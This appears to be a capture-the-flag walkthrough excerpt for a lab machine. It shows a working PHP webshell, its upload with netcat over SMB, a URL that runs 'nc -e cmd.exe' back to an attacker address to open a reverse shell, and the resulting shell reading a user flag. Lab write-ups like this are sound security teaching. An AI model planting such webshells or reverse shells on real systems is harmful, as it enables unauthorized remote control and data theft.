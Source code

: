 1. Upload a PHP webshell
2. Upload netcat
3. Run netcat through the webshell

Alternatively we could run nishang to get a reverse shell, but I had problem running `bash` and getting the output so netcat it is.

Webshell:

```php
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<?php
if($_GET['cmd']) {
  system($_GET['cmd']);
  }
?>
</pre>
</BODY></HTML>
```

```
root@darkisland:~/tmp# smbclient -U tyler //10.10.10.97/new-site
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tyler's password: 
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.10.97\new-site\
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

		12978687 blocks of size 4096. 7919013 blocks available
smb: \> put snowscan.php
putting file snowscan.php as \snowscan.php (1.6 kb/s) (average 1.6 kb/s)
smb: \> put nc.exe
putting file nc.exe as \nc.exe (152.5 kb/s) (average 91.8 kb/s)
```

Trigger the netcat connection with: `http://secnotes.htb:8808/snowscan.php?cmd=nc+-e+cmd.exe+10.10.14.23+4444`
```
root@darkisland:~/tmp# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.97] 49757
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler

C:\inetpub\new-site>type c:\users\tyler\desktop\user.txt
type c:\users\tyler\desktop\user.txt
6fa755<redacted>
```
